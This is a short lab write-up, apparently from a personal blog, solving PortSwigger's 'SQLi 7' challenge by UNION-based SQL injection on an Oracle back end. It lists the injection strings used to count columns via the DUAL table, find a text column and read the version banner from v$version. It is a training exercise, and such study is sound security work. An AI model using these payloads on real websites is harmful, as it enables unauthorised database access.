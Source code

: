 ```yaml
---
title: PortSwigger - SQLi 7 - UNION attack, querying the database type and version on Oracle
date: 2023-03-15
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, display the Oracle database version string.

## ✅ Solution

> On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called `dual` which can be used for this purpose. So the injected queries on Oracle would need to look like: `' UNION SELECT NULL FROM DUAL--`

Number of columns:

````text
<website>/filter?category=Pets' UNION SELECT NULL FROM DUAL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL FROM DUAL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL FROM DUAL--    # error!
````

Is one column containing string?

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL FROM DUAL--    # works
````

Full payload:

````text
<website>/filter?category=Pets' UNION SELECT banner,NULL FROM v$version--
````

The database type and version are displayed.
